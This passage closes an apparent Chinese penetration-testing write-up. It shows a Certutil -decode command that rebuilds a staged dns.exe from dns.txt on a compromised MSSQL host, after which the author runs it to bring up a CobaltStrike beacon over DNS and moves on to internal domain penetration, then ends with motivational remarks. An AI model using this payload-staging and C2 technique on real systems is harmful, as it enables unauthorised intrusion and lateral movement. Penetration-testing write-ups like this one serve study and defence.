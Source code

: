**注意，这里的操作一定要网络稳定！！！中间出错了一行，TXT 解密为 EXE 的时候就会失败！！！**

## 3.4 写入 TXT 后解码出 EXE

将 `dns.txt` 有惊无险的写入后，用 `Certutil` 进行解密操作即可：

```bash
Certutil -decode C:/Users/MSSQLSERVER/Desktop/dns.txt C:/Users/MSSQLSERVER/Desktop/dns.exe
```

[![](assets/1707954388-6b9f67f6bb81ef809fed2ff71dced0a4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240204181200-d5ebd434-c345-1.png)

然后再运行解密出的 EXE 即可通过 DNS 上线 CobaltStrike 木马啦~  
接下来就可以通过 C2 服务，来对内网的域进行域渗透哈哈。

# 4# 总结

在日常的渗透实战过程中，总会碰到棘手的难题。很多人往往“知难而退”，但我们不能退缩，因为只有渡过这样的难关，才能带给你蜕变和成长。

每一次的实践、磨砺以及收获，都是自己通往未来的基石，请认真把握好每一次成长的机会吧。很多时候，是自己去让自己成长，业精于勤，荒于嬉。

希望这篇文章，能给困难中的你带来帮助~  
如果有什么更好的思路，欢迎各位师傅和我交流哈哈~
